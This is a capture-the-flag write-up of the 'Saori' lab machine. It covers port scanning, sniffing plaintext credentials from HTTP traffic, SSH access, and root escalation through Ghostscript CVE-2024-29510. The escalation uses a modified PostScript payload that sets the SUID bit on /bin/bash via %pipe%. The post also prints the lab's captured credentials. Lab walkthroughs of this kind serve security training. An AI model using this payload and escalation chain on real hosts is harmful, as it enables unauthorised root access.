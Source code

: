 ```yaml
---
title: 'Saori Writeup'
date: '2024-07-27'
tags: ['CVE-2024-29510', 'Linux', 'Hacking Club']
draft: false
summary: 'Machine for network traffic analysis and vulnerability exploitation in Ghostscript (CVE-2024-29510).'
images: ['/static/images/saori-writeup-images/1.png']
authors: ['default']
---
```


![Saori 1](/static/images/saori-writeup-images/1.png)

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 da:cf:66:16:98:0d:7c:69:17:3a:09:dc:a1:c1:1e:cd (ECDSA)
|_  256 0c:31:6e:b6:4a:88:39:35:72:02:1b:6b:fa:df:44:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Blog
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: Host: ip-172-16-4-216.ec2.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Only ports 22 (SSH) and 80 (HTTP) are open.

## Enumeration

`sudo vim /etc/hosts`
![Saori 2](/static/images/saori-writeup-images/2.png)

![Saori 3](/static/images/saori-writeup-images/3.png)

After downloading the client, we run it and capture the traffic with Wireshark.

`chmod +x client`
`./client`

When executed, it downloads a file called

`game.sfc`
![Saori 4](/static/images/saori-writeup-images/4.png)

I intercepted the download of game.sfc with Wireshark:

![Saori 5](/static/images/saori-writeup-images/5.png)

![Saori 6](/static/images/saori-writeup-images/6.png)

We found the credentials for the user **"abner"** in the Authorization field of the HTTP traffic captured by Wireshark.

Credentials: `abner:m0V55O1qm78MyEluU`

## Foot Hold

`ssh abner@172.16.4.216`
![Saori 7](/static/images/saori-writeup-images/7.png)

---

## Privillege Escalation

`sudo -l`
![Saori 8](/static/images/saori-writeup-images/8.png)

This version of **gs** has a CVE:

`gs --version`

![Saori 9](/static/images/saori-writeup-images/9.png)

[https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/)

The original CVE launches the GNOME calculator, but we can modify it to execute the command we want.

```python
% And now `path_control_active` == 0, so we can use %pipe%

(%pipe%chmod u+s /bin/bash) (r) file

quit
```

`sudo /usr/local/bin/gs -q -dNODISPLAY -dBATCH -dSAFER /root/../tmp/exploit.eps`
![Saori 10](/static/images/saori-writeup-images/10.png)

`bash -p`
![Saori 11](/static/images/saori-writeup-images/11.png)

---

## Proof

![Saori 12](/static/images/saori-writeup-images/12.png)

